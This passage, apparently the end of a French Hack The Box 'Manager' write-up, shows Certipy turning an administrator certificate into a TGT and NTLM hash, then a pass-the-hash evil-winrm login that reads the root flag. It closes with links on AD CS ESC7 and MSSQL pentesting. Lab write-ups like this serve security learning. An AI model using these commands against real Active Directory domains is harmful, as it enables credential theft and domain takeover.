 - Enfin, nous avons récupérer le certificat émis à l'aide de la commande `req` et du paramètre ``-retrieve 15``. ce qui nous a donnee un fichier `administrator.pfx` avec laquelle on pourra dumper le hash `NTLM` de l'adminstrateur avec la commande `auth` de Certipy

```sh
└─# certipy auth -pfx administrator.pfx -dc-ip 10.129.170.217
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef

```

Avec ce hash, je vais me connecter sur l'utilisateur `administrator` avec le `winrm`

```sh
# evil-winrm -i $ip -u administrator -H ae5064c2f62317332c88629e025924ef
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
manager\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
49d8a6570dd60c8ecb2b238c6dd14dec
```

![ipconfig](https://i.ibb.co/5GDTSTn/ip.png)


## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :

- [Domain Escalate Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2)
- [Active Directory CS Pentesting by Exploit-Notes](https://exploit-notes.hdks.org/exploit/windows/active-directory/ad-cs-pentesting/)
- [msSQL Pentest](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [xp_dirtree to list files](https://www.sqlservercentral.com/blogs/how-to-use-xp_dirtree-to-list-all-files-in-a-folder)
- [Active Directory Certificate Pentest](https://www.thehacker.recipes/a-d/movement/ad-cs)
- [Certipy](https://github.com/ly4k/Certipy)
- [ESC7 Exploitation](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7){#Esc7}
- [Fix KRB_AP_ERR_SKEW](https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
